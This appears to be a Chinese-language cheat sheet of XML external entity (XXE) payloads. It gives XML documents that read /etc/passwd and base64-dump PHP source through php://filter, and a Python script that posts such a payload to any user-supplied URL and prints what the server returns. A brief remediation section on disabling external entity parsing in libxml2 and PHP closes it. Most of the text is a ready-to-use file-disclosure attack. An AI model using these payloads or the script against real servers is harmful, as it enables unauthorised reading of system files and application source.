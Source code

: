 ```yaml
---
title: xxe payload
tags: xxe,payload,001
grammar_cjkRuby: true
---
```


XML在调用外部实体整体的写法如下：

``` xml
 <?xml version="1.0" encoding="utf-8"?>

  <!DOCTYPE xdsec [

  <!ELEMENT methodname ANY >

  <!ENTITY xxe(实体引用名) SYSTEM "file:///etc/passwd"(实体内容) >]>

  <methodcall>

  <methodname>&xxe;</methodname>

  </methodcall>
```

查看passwd文件POC：

``` xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<root>

<name>&xxe;</name>

</root>
```

调用php命令poc：

``` xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >]>

<root>

<name>&xxe;</name>

</root>
```

一个xxe的Python脚本：

``` python

import urllib2

if __name__ == '__main__':

    print u'输入要读取的文件，如file:///etc/passwd'

    payload = raw_input()

    print u'输入要访问的地址，如http://172.16.12.2/simplexml_load_string.php'

    url = raw_input()

    #url = 'http://192.168.70.235/simplexml_load_string.php'

    headers = {'Content-type': 'text/xml'}

    xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + payload + '" >]><root><name>&xxe;</name></root>'

    req = urllib2.Request(url = url,headers = headers, data = xml)

    res_data = urllib2.urlopen(req)

    res = res_data.read()

    print res
```

修复方案：

> 修复方案

    使用libxml2.8.0以上版本xml解析库，默认禁止外部实体的解析

    对于PHP,由于simplexml_load_string函数的XML解析问题出在libxml库上,所以加载实体前可以调用函数进行过滤

    可将外部实体、参数实体和内联DTD都被设置为false，从而避免基于XXE漏洞的攻击。



